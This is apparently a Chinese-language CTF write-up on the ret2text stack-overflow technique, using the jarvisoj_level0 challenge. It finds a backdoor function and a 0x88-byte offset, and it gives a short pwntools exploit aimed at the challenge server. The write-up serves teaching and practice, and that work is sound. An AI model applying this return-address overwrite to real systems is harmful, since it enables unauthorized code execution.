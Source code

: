 ```yaml
---
title: 【PWN】ret2text
---
```


## 原理

ret2text就是篡改栈帧上的返回地址为程序中已有的后门函数，我们需要知道对应返回的代码的位置。
## 例题
jarvisoj_level0，可在buuctf网站中下载。首先使用checksec工具查看它开了啥保护措施，基本全关。

![1.jpg](/images/ret2text/1.jpg)

然后我们使用ida查看一下该程序，程序很简单,有明显的栈溢出漏洞和后门函数，后门函数地址就为0x40059A。

![2.jpg](/images/ret2text/2.jpg)

![3.jpg](/images/ret2text/3.jpg)

ida帮我们计算出来了buf字符串距离rbp有0x80个字节，由于rbp本身还占8个字节，所以溢出0x88个字节后将返回地址修改为后门函数的地址exp如下。

```python
 
from pwn import *

#p = process('./level0')
p = remote('node3.buuoj.cn',27644)
sys_addr = 0x40059A

payload = cyclic(0x88) + p64(sys_addr)

p.recv()
p.sendline(payload)
p.interactive()
```